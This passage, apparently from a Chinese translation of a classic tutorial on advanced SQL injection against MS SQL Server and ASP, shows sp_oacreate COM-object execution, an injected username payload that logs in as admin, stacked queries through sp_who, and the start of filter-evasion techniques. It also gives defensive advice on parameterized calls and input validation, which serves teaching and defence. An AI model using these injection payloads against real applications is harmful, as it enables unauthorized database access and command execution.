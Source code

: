 exec @ret=sp_oamethod @f,&amp;apos;writeline&amp;apos;,NULL,&amp;apos;&amp;apos;

需要指出的是如果运行的环境是WIN NT4+IIS4平台上，那么通过这个程序运行的命令是以系统权限运行的。在IIS5中，它以一个比较低的权限IWAM_XXXaccount运行。

(4)这些例子阐述了这个技术的适用性；它可以使用&amp;apos;speech.voicetext&amp;apos;对象引起SQL SERVER发声：

declare @o int,@ret int

exec sp_oacreate &amp;apos;speech.voicetext&amp;apos;,@o out

exec sp_oamethod @o,&amp;apos;register&amp;apos;,NULL,&amp;apos;foo&amp;apos;,&amp;apos;bar&amp;apos;

exec sp_oasetproperty @o,&amp;apos;speed&amp;apos;,150

exec sp_oamethod @o,&amp;apos;speak&amp;apos;,NULL,&amp;apos;all your sequel servers are belong to,us&amp;apos;,528

waitfor delay &amp;apos;00:00:05&amp;apos;

我们可以在我们假定的例子中，通过指定在用户名后面来执行它（注意这个例子不仅仅是注入一个脚本，同时以admin权限登陆到应用程序）：

Username：admin&amp;apos;;declare @o int,@ret int exec sp_oacreate &amp;apos;speech.voicetext&amp;apos;,@o out exec sp_oamethod @o,&amp;apos;register&amp;apos;,NULL,&amp;apos;foo&amp;apos;,&amp;apos;bar&amp;apos; exec sp_oasetproperty @o,&amp;apos;speed&amp;apos;,150 exec sp_oamethod @o,&amp;apos;speak&amp;apos;,NULL,&amp;apos;all your sequel servers are belong to us&amp;apos;,528 waitfor delay &amp;apos;00:00:05&amp;apos;--

[存储过程]

传说如果一个ASP应用程序在数据库中使用了存储过程，那么SQL注入是不可能的。这句话只对了一半，这要看ASP脚本中调用这个存储过程的方式。

本质上，如果一个有参数的查询被执行 ，并且用户提供的参数通过安全检查才放入到查询中，那么SQL注入明显是不可能发生的。但是如果攻击者努力影响所执行查询语句的非数据部分，这样他们就可能能够控制数据库。

比较好的常规的标准是：

?如果一个ASP脚本能够产生一个被提交的SQL查询字符串，即使它使用了存储过程也是能够引起SQL注入的弱点。

?如果一个ASP脚本使用一个过程对象限制参数的往存储过程中分配（例如ADO的用于参数收集的command对象），那么通过这个对象的执行，它一般是安全的。

明显地，既然新的攻击技术始终地被发现，好的惯例仍然是验证用户所有的输入。

为了阐明存储过程的查询注入，执行以下语句：

sp_who &amp;apos;1&amp;apos; select * from sysobjects

or

sp_who &amp;apos;1&amp;apos;;select * from sysobjects

任何一种方法，在存储过程后，追加的查询依然会执行。

[高级SQL注入]

通常情况下，一个web应用程序将会过滤单引号（或其他符号），或者限定用户提交的数据的长度。

在这部分，我们讨论一些能帮助攻击者饶过那些明显防范SQL注入，躲避被记录的技术。

[没有单引号的字符串]

有时候开发人员会通过过滤所有的单引号来保护应用程序，他们可能使用VBScript中的replace函数或类似：

function escape(input)
